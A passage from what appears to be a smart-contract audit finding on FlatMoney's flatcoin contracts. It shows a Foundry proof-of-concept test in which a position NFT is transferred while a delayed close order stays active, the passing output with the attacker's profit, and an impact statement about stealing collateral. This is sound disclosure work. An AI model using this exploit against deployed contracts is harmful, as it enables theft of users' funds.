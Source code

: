 ```solidity

    // TokenId is unlocked and can be transferred while the delayed order is active
    leverageModProxy.transferFrom(alice, address(0x1), tokenId);
    console2.log("new owner of position NFT", leverageModProxy.ownerOf(tokenId));

    balance = WETH.balanceOf(alice);
    console2.log("alice after transfering position NFT out e.g. selling", balance);

    skip(uint256(vaultProxy.minExecutabilityAge())); // must reach minimum executability time

    uint256 oraclePrice = collateralPrice;

    bytes[] memory priceUpdateData = getPriceUpdateData(oraclePrice);
    delayedOrderProxy.executeOrder{value: 1}(alice, priceUpdateData);

    uint256 finalBalance = WETH.balanceOf(alice);
    console2.log("alice after executing delayerd order and cashing out profit", finalBalance);
    console2.log("profit", finalBalance - balance);
}
```

Output
```shell
Running 1 test for test/unit/Common/LimitOrder.t.sol:LimitOrderTest
[PASS] testExploitTransferOut() (gas: 743262)
Logs:
  alice balance 99879997000000000000000
  alice after creating two orders 99879997000000000000000
  new owner of position NFT 0x0000000000000000000000000000000000000001
  alice after transfering position NFT out e.g. selling 99879997000000000000000
  alice after executing delayerd order and cashing out profit 99889997000000000000000
  profit 10000000000000000000

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 50.06ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact

The attacker can sell the leveraged position with a close order opened, execute the order afterward, and steal the underlying collateral.

## Code Snippet
- https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/DelayedOrder.sol#L298
- https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L76
- https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L94

## Tool used

